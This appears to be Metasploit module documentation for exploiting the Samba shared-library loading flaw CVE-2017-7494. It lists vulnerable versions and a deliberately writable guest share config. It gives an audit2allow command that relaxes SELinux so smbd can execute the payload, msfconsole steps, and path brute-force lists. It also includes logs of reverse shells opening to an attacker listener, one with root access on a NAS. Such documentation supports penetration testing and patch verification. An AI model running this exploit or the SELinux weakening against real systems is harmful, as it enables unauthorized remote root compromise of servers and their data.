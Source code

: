## Vulnerable Application

This module exploits Samba from versions 3.5.0-4.4.14, 4.5.10, and 4.6.4 by loading a malicious shared library.
Samba's download archives are [here](https://download.samba.org/pub/samba/stable/).  There are some requirements
for this exploit to be successful:

1. Valid credentials
2. Writeable folder in an accessible share
3. Server-side path of the writeable folder

However, in some cases anonymous access with common filesystem locations can be used to automate exploitation.

A vulnerable Samba config may have a share similar to the following in `smb.conf`.  This is a setup for 'easy' exploitation
where no SMB options are required to be set:

```
[exploitable]
comment = CVE-2017-7494
path = /tmp
writable = yes
browseable = yes
guest ok = yes
```

Verified on:

1. Synology DS412+ DSM 6.1.1-15101 Update 2 (Samba 4.4.9)
2. Synology DS412+ DSM 6.1.1-15101 Update 3 (Samba 4.4.9)
3. Synology DS1512+ DSM 6.1.1-15101 Update 2 (Samba 4.4.9)
4. Synology DS1512+ DSM 6.1.1-15101 Update 3 (Samba 4.4.9)
5. Synology DS2415+ DSM 6.1-15047 (Samba 4.3.11)
6. Ubuntu 14.04.5 x64 (Samba 4.3.9)
7. Ubuntu 15.04 (Samba 4.1.13)
8. Ubuntu 16.04 (Samba 4.3.11)
9. Fedora 24 (Samba 4.4.13)

Currently not working against:

1. QNAP NAS Samba 4.4.9 on armv71
2. WD MyClous NAS Samba 4.0.0rc5 armv71

### SELinux

Fedora (and possibly Redhat) are not exploitable in their default installation.  SELinux must be adjusted to allow nmbd to use net_admin, and smbd to exec the payload.

```
echo -ne "type=AVC msg=audit(1495745298.086:334): avc:  denied  { execstack } for  pid=2365 comm="smbd" scontext=system_u:system_r:smbd_t:s0 tcontext=system_u:system_r:smbd_t:s0 tclass=process permissive=0\ntype=AVC msg=audit(1495717997.099:267): avc:  denied  { net_admin } for  pid=959 comm="nmbd" capability=12  scontext=system_u:system_r:nmbd_t:s0 tcontext=system_u:system_r:nmbd_t:s0 tclass=capability permissive=0\ntype=AVC msg=audit(1495745002.690:308): avc:  denied  { execmem } for  pid=1830 comm="smbd" scontext=system_u:system_r:smbd_t:s0 tcontext=system_u:system_r:smbd_t:s0 tclass=process permissive=0\ntype=AVC msg=audit(1495745183.319:331): avc:  denied  { execute } for  pid=2313 comm="smbd" path="/tmp/ucFtDpZI.so" dev="tmpfs" ino=27436 scontext=system_u:system_r:smbd_t:s0 tcontext=system_u:object_r:smbd_tmp_t:s0 tclass=file permissive=0" | audit2allow -M cve-2017-7494; semodule -X 300 -i cve-2017-7494.pp
```

## Verification Steps

1. Start msfconsole
2. Do: ```use exploit/linux/samba/is_known_pipename```
3. Do: ```set rhost [ip]```
4. Do: ```set target [target #]```
5. Do: ```exploit```

## Options

  **SMB_SHARE_NAME**
  
  The name of the SMB share containing a writeable directory.  Shares are automatically scanned for, and if this
  variable is non-blank, it will be preferred.

  **SMB_SHARE_BASE**
  
  The remote filesystem path correlating with the SMB share name.  This value is preferred, but other values are
  brute forced including:

1. /volume1
2. /volume2
3. /volume3
4. /shared
5. /mnt
6. /mnt/usb
7. /media
8. /mnt/media
9. /var/samba
10. /tmp/home/home/shared

  **SMB_FOLDER**
  
  The directory to use within the writeable SMB share.  Writable directories are automatically scanned for, and if this
  variable is non-blank, it will be preferred.

## Scenarios

### Synology DS412+ w/ INTEL Atom D2700 on DSM 6.1.1-15101 Update 2

```
msf exploit(is_known_pipename) > exploit

[*] Started reverse TCP handler on 1.2.3.117:4444 
[*] 1.2.3.119:445 - Using location \\1.2.3.119\ESX\ for the path
[*] 1.2.3.119:445 - Payload is stored in //1.2.3.119/ESX/ as eePUbtdw.so
[*] 1.2.3.119:445 - Trying location /volume1/eePUbtdw.so...
[-] 1.2.3.119:445 - Probe: /volume1/eePUbtdw.so: The server responded with error: STATUS_OBJECT_NAME_NOT_FOUND (Command=162 WordCount=0)
[*] 1.2.3.119:445 - Trying location /volume1/ESX/eePUbtdw.so...
[*] Command shell session 1 opened (1.2.3.117:4444 -> 1.2.3.119:34366) at 2017-05-24 21:12:07 -0400

id
uid=0(root) gid=0(root) groups=0(root),100(users)
uname -a
Linux synologyNAS 3.10.102 #15101 SMP Fri May 5 12:01:38 CST 2017 x86_64 GNU/Linux synology_cedarview_412+
```

### Ubuntu 16.04

```
msf exploit(is_known_pipename) > exploit 

[*] Started reverse TCP handler on 192.168.0.3:4444 
[*] 192.168.0.3:445 - Using location \\192.168.0.3\yarp\h for the path
[*] 192.168.0.3:445 - Payload is stored in //192.168.0.3/yarp/h as GTithXJz.so
[*] 192.168.0.3:445 - Trying location /tmp/yarp/h/GTithXJz.so...
[*] Command shell session 6 opened (192.168.0.3:4444 -> 192.168.0.3:45076) at 2017-05-24 19:41:40 -0500

id
uid=65534(nobody) gid=0(root) groups=0(root),65534(nogroup)
```
